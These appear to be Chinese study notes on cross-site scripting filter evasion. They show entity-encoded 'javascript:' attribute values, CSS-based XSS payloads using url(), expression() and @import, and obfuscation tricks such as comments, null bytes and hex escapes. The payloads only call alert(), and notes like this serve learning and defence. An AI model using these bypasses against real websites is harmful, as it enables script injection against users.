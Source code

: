 ### 对标签属性值的转码

html中属性值本身支持ascii码格式

```html
<img src="javascript:alert(/xss/)">
变为
<img src="javascript&#116&#58alert(/xss/)">
将&#116变为&#000000116也行
还可以将&#01,&#02等支付插入到javascript或vbscript头部
```

### 产生自己的事件

onerror,onerror

### 利用css跨站攻击

```css
<div style="background-image:url(javascript:alert('xss'))"
<style>
body{
    background-image:url("javascript:alert('xss')")
}
</style>
<div style="width:expression(alert('xsss'));">
<style>
@import 'javascript:alert()'
</style>
```

加载css的方式:

- link标签
  `<link rel="stylesheet" href="xxxx.css">`
- @import
  `<style type='text/css'>@import url(xxxx.css);</style>`

### 扰乱过滤规则

```html
<img/src="mar.png" alt="mars">
    样式标签中的/**/和\和\0会被浏览器忽略
    <img src="java/*exp/**/script:alert();*/ression(alert(0))">
    @\i\0m\00p\0000\0000\00000r\000000t "url"
   将css中的关键字进行转码处理,如将e转换成\65
    <p style="xss:\0065xpression(alert(/xss/))">
        
   样式表也支持分析和解释\连接的16进制字符串形式
        <style>BODY{background:\75\72\6c....}</style>
```



## Ajax
